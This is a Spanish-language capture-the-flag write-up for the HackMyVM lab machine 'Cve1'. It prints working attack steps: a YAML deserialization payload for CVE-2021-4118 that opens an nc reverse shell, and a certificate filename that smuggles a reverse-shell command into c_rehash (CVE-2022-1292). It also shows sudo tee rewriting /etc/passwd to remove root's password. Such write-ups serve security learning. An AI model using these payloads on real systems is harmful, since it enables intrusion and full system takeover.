 ```yaml
---
layout: post
title: Cve1 - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: InfayerTS \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/cve1/cve_1.png#center)

## Reconocimiento

Como siempre, lo primero es un escaneo de puertos:

```
sudo nmap -p- 192.168.1.74     
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-13 11:35 EST
Nmap scan report for 192.168.1.74
Host is up (0.00012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin
MAC Address: 08:00:27:05:46:AA (Oracle VirtualBox virtual NIC)

```

### 9090

Al navegar a esta página encuentro el siguiente comentario:

```
<!--Backend developed with PyTorch Lightning 1.5.9-->
```

Investigando PyTorch encuentro la vulnerabilidad [CVE-2021-4118](https://huntr.dev/bounties/31832f0c-e5bb-4552-a12c-542f81f111e6/) con la que se puede obtener ejecución de código en el servidor.

Utilizando gobuster encuentro el archivo "file.yaml" en el servidor.

## Explotación

Para conseguir una reverse shell, basandome en el "Proof of Concept" de la vulnerabilidad, ejecuto un listener en una terminal y creo el siguiente yaml:

```
- !!python/object/new:yaml.MappingNode
listitems: !!str '!!python/object/apply:subprocess.Popen [["nc","-e", "/bin/bash", "192.168.1.72", "1234"]]'
state:
tag: !!str dummy
value: !!str dummy
extend: !!python/name:yaml.unsafe_load
```

Al subirlo al servidor con el nombre "file" (la extensión la añade automaticamente el servidor), consigo shell como www-data.

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.72] from (UNKNOWN) [192.168.1.74] 34696
www-data@cve-pt1:~$ whoami
www-data
www-data@cve-pt1:~$ :)
```

### Escalado de privilegios

Tras una extensa enumeración, descubro que el usuario wicca tiene un cronjob ejecutandose cada minuto:

```
www-data@cve-pt1:/etc$ grep -r wicca
[...]
cron.d/cve1:*/1 * * * * wicca c_rehash /etc/ssl/certs/
cron.d/cve1:*/1 * * * * wicca sleep 30; c_rehash /etc/ssl/certs/
[...]
```

El binario c_rehash tiene la vulnerabilidad [CVE-2022-1292](https://github.com/alcaparra/CVE-2022-1292/blob/main/README.md) con la cual puedo ejecutar una reverse shell y obtener acceso como el usuario wicca.

```
www-data@cve-pt1:/etc$ cd /etc/ssl/certs
www-data@cve-pt1:/etc/ssl/certs$ echo "-----BEGIN CERTIFICATE-----" > "hey.crt\`nc -c sh 192.168.1.72 12345\`"
```

Una vez se ejecute la tarea automaticamente, obtendremos una shell.

El usuario wicca tiene permiso para ejecutar tee como root, lo cual podremos utilizar para escalar privilegios.

```
wicca@cve-pt1:/etc/ssl/certs$ sudo -l
sudo: unable to resolve host cve-pt1: Name or service not known
Matching Defaults entries for wicca on cve-pt1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User wicca may run the following commands on cve-pt1:
    (root) NOPASSWD: /usr/bin/tee
```

En este caso, para no complicarme mucho creando claves, lo primero que he hecho es leer /etc/passwd, borrar la "x" en la posición de la contraseña y reescribir /etc/passwd utilizando tee. De esta forma el usuario root se quedará sin contraseña.

```
wicca@cve-pt1:/home$ echo "root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
avahi-autoipd:x:105:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
wicca:x:1000:1000:wicca,,,:/home/wicca:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin" | sudo tee /etc/passwd
```

De esta forma, ahora simplemente ejecuto "su" para iniciar sesion como root.

```
wicca@cve-pt1:/home$ su root
su root
root@cve-pt1:/home# :)
```

Muchas gracias a **InfayerTS** por esta máquina.
